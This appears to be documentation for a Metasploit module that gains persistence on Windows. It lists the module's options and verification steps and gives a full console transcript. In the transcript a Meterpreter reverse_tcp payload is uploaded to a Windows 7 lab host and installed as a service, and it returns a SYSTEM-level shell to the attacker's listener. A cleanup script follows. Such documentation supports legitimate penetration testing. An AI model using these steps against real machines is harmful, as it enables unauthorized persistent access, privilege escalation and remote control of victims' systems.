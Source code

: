 ## Description

This Module will generate and upload an executable to a remote host, next will make it a persistent service.
It will create a new service which will start the payload whenever the service is running. Admin or system privilege is required.

## Options

### REMOTE_EXE_NAME

 The remote victim name. Random string as default.

### REMOTE_EXE_PATH

The remote victim exe path to run. Use temp directory as default.

### RETRY_TIME

The retry time that shell connect failed. 5 seconds as default.

### SERVICE_DESCRIPTION

The description of service. Random string as default.

### SERVICE_NAME

The name of service. Random string as default.

## Verification Steps

1. get session on target
2. `use exploit/windows/local/persistence_service`
3. `set payload <payload>`
4. `set lport <lport>`
5. `set lhost <lhost>`
6. `exploit`

## Scenarios

### Windows 7 SP1 x64

```
msf exploit(windows/local/persistence_service) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: test-PC\test
meterpreter > sysinfo
Computer        : TEST-PC
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > background
[*] Backgrounding session 1...
msf exploit(windows/local/persistence_service) > use exploit/windows/local/persistence_service
msf exploit(windows/local/persistence_service) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(windows/local/persistence_service) > set lport 2333
lport => 2333
msf exploit(windows/local/persistence_service) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf exploit(windows/local/persistence_service) > set session 1
session => 1
msf exploit(windows/local/persistence_service) > exploit

[*] Started reverse TCP handler on 192.168.56.1:2333
[*] Running module against TEST-PC

[+] Meterpreter service exe written to C:\Users\test\AppData\Local\Temp\NVNvCyn.exe
[*] Creating service NePaGwA
[*] Cleanup Meterpreter RC File: /Users/green/.msf4/logs/persistence/TEST-PC_20181022.5605/TEST-PC_20181022.5605.rc
[*] Sending stage (179779 bytes) to 192.168.56.101
[*] Meterpreter session 4 opened (192.168.56.1:2333 -> 192.168.56.101:52781) at 2018-10-22 17:56:21 +0800

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : TEST-PC
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > background
[*] Backgrounding session 4...
```

**Clean it**

```
msf exploit(windows/local/persistence_service) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > resource /Users/green/.msf4/logs/persistence/TEST-PC_20181022.5605/TEST-PC_20181022.5605.rc
[*] Processing /Users/green/.msf4/logs/persistence/TEST-PC_20181022.5605/TEST-PC_20181022.5605.rc for ERB directives.
resource (/Users/green/.msf4/logs/persistence/TEST-PC_20181022.5605/TEST-PC_20181022.5605.rc)> execute -H -f sc.exe -a "stop NePaGwA"
Process 6516 created.
resource (/Users/green/.msf4/logs/persistence/TEST-PC_20181022.5605/TEST-PC_20181022.5605.rc)> execute -H -f sc.exe -a "delete NePaGwA"
Process 6624 created.
resource (/Users/green/.msf4/logs/persistence/TEST-PC_20181022.5605/TEST-PC_20181022.5605.rc)> execute -H -i -f taskkill.exe -a "/f /im NVNvCyn.exe"
Process 5636 created.
Channel 23 created.
SUCCESS: The process "NVNvCyn.exe" with PID 5180 has been terminated.
SUCCESS: The process "NVNvCyn.exe" with PID 4828 has been terminated.
SUCCESS: The process "NVNvCyn.exe" with PID 5728 has been terminated.
resource (/Users/green/.msf4/logs/persistence/TEST-PC_20181022.5605/TEST-PC_20181022.5605.rc)> rm C:\\Users\\test\\AppData\\Local\\Temp\\NVNvCyn.exe
meterpreter > 

